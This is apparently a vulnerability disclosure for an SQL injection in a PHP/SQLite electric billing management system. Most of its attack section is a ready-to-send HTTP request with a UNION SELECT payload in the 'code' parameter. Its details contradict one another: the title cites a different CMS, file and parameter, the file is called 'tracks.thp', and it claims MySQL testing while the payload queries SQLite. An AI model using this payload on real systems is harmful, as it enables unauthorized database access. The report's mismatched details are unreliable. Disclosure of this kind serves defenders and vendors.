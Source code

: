 Exploit Title: dingfanzu-CMS chpwd.php username SQL inject

Exploit Author: webraybtl@webray.com.cn inc

Vendor Homepage: https://www.sourcecodester.com/php/14967/electric-billing-management-system-php-and-sqlite-free-source-code.html

Software Link: https://www.sourcecodester.com/php/14967/electric-billing-management-system-php-and-sqlite-free-source-code.html

CMSName: electric-billing-management-system

Tested on: Windows, Apache ,Mysql

Description

The reason for the SQL injection vulnerability is that the website application did not verify the validity of the data submitted by the user to the server (such as type, length, business parameter validity, etc.), nor did it effectively filter the data input by the user with special characters, thus directly inputting the user's input into the database for execution. This exceeded the expected result of the original design of the SQL statement. The system did not filter the code parameter content correctly in the tracks.thp file, resulting in SQL injection

    Payload used:

    GET /electric_billing_0/electric_billing/?page=tracks&code=-1%27%20union%20select%201%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2C14%2Csqlite_version()%3B HTTP/1.1
    Host: 192.168.2.107
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Referer: http://192.168.2.107/electric_billing_0/electric_billing/?page=tracks&code=--1%27%20union%20select%201%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%2C13%2C14%2Csqlite_version()%3B
    Connection: close
    Cookie: PHPSESSID=g06tfgab6s50lnkbbi55rl10bb
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i

Proof of Concept

![image](https://github.com/user-attachments/assets/70959e4e-6ceb-413d-a7d5-ec42ddf546e4)
![image](https://github.com/user-attachments/assets/740d99dc-364c-4813-b230-fe3f53be4c9b)
![image](https://github.com/user-attachments/assets/bacfb0e3-64cf-4856-8f53-1cce55ab4574)


